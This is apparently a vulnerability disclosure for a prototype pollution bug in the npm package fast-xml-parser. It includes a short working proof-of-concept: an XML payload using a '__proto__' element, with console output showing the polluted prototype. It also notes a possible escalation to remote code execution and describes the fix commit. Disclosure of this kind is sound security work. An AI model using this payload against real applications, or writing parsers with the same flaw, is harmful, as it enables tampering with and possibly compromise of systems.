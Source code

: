 I was auditing another application and found that they were using 
`fast-xml-parser` parse uploaded xml files.

The package description says *Validate XML, Parse XML to JS Object, or Build XML from JS Object without C/C++ based libraries and no callback.*

*Parse XML to JS Object* - this sounded very interesting and I knew I should test for prototype pollution as many other packages which *convert json to js objects* were found to be vulnerable in the past and it turned out yeah this package was vulnerable to it.

https://www.npmjs.com/package/fast-xml-parser

Taking an example code from the github repo to demonstrate the bug:


```js
const { XMLParser, XMLBuilder, XMLValidator} = require("fast-xml-parser");


let XMLdata = "<__proto__><polluted>hacked</polluted></__proto__>"

const parser = new XMLParser();
let jObj = parser.parse(XMLdata);


console.log(jObj.polluted) // should return hacked
```

![Code_G3UvvJcSv5](https://user-images.githubusercontent.com/31372554/218308540-86792929-3631-4580-8373-4651487418b5.png)

In the above screenshot you can see the `jObj` was polluted with a new property.

```js
jObj
>{}
jObj.__proto__
>{polluted: 'hacked'}
jObj.__proto__.polluted
>'hacked'
```

More information on prototype pollution can be found here: https://learn.snyk.io/lessons/prototype-pollution/javascript/

As it is common for developers to pass user controllable input to `XMLParser` , this can to do unexpected results. By chaining it with some prototype pollution gadget it might even can lead to RCE in some cases https://research.securitum.com/prototype-pollution-rce-kibana-cve-2019-7609/


Fix commit: https://github.com/NaturalIntelligence/fast-xml-parser/commit/2b032a4f799c63d83991e4f992f1c68e4dd05804

They are now validating, if the key contains `__proto__` and replaces it with `#__proto__`

CVE is still pending .
